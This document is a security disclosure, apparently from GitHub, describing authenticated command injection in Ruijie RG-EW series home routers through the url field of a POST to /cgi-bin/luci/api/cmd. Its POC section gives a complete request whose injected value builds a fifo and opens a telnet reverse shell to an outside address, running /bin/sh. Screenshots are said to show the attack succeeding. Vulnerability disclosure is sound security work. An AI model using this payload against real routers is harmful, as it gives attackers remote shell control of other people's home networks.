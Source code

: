 ## Regarding the Post-Authorization RCE in Ruijie Home Router EW Series Devices

### Affected Versions:

- RG-EW5100BE PRO latest version EW_3.0B11P280_EW5100BE-PRO_12183019
- Theoretically applies to all EW series devices

Download link: https://www.ruijie.com.cn/fw/rj-cp-ew5100bepro/

# Overview

**In the Ruijie RG-EW series routers, there exists an authorization-based command injection vulnerability by sending a POST request containing a specific URL field to /cgi-bin/luci/api/cmd.**

# Vulnerability details

**Under /usr/sbin/unifyframe-sgi.elf**

![image-20250921000358833](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146491.png)

**For the url field in the data field, only** `$(` **and** `<` **were filtered, yet command execution still occurred afterwards.**

![image-20250921000536168](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146493.png)

# POC

Send the following POST request to `/cgi-bin/luci/api/cmd`.

```url
POST /cgi-bin/luci/api/cmd?auth=24fde8726283b2b2e656f2f438751d13 HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6,zh-HK;q=0.5
Cookie: SN=a55fa66d7c919385ee10997fadb8c379; __APP_LANG__=zh_cn

{
    "method": "devSta.get",
    "params": {
        "module": "123",
        "from_url": 1,
        "data" : {"kkk":"abcd","url": "192.168.121.160\" -o /dev/null; mkfifo /tmp/test;telnet 192.168.121.138 6666 0</tmp/test|/bin/sh > /tmp/test ; echo \""}
              }
}
```

# Attack Demonstration

![image-20250922214553006](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146494.png)

![image-20250922214609353](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146495.png)